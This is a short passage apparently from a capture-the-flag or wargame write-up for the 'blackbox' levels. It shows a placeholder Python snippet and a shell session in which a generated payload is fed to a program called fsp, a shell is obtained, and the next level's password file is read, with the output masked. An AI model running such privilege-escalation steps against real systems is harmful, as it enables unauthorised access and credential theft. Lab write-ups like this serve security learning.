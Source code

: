 ```python

print FILE
```

Let's give it a shot:

```
level6@blackbox:~$ ~/fsp `python /tmp/genpayload.py`
sh-3.1$ cat /home/level7/password
cat: /home/level7/password: No such file or directory
sh-3.1$ cat /home/level7/passwd
??????????
```

Done!
